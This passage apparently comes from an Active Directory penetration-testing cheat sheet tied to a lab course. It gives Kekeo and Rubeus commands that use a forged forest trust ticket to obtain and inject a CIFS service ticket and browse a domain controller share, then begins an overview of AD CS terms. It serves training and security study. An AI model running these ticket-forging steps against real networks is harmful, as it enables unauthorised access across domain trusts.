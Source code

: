 **Abuse with Kekeo -->**

* Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.

```
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local
```

* Use the TGS to access the targeted service.

```
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

* Tickets for other services (like HOST and RPCSS for WMI, HTTP for PowerShell Remoting and WinRM) can be created as well.

**Abuse with Rubeus -->**

* Using the same TGT which we forged earlier

```
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorpdc.eurocorp.local /ptt

ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

![](<.gitbook/assets/image (5).png>)

### ADCS - Across Forest Trust

**NOTE - check out my talk at Null Meet-up Bangalore on ADCS Explotation. (**[**https://github.com/Abhinandan-Khurana/Null-Bangalore-Meetup-July-15-2023**](https://github.com/Abhinandan-Khurana/Null-Bangalore-Meetup-July-15-2023)**)**

* Active Directory Certificate Services (AD CS) enables use of Public Key Infrastructure (PKI) in active directory forest.
* AD CS helps in authenticating users and machines, encrypting and signing documents, filesystem, emails and more.
* "AD CS is the Server Role that allows you to build a public key infrastructure (PKI) and provide public key cryptography, digital certificates, and digital signature capabilities for your organization."
* CA - The certification authority that issues certificates. The server with AD CS role (DC or separate) is the CA.
* Certificate - Issued to a user or machine and can be used for authentication, encryption, signing etc.
* CSR - Certificate Signing Request made by a client to the CA to request a certificate.
* Certificate Template - Defines settings for a certificate. Contains information like - enrolment permissions, EKUs, expiry etc.
* EKU OIDs - Extended Key Usages Object Identifiers. These dictate the use of a certificate template (Client authentication, Smart Card Logon, SubCA etc.)

![](.gitbook/assets/image.png)

There are various ways of abusing ADCS! (See the link to "Certified PreOwned" paper in slide notes) \[[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)]
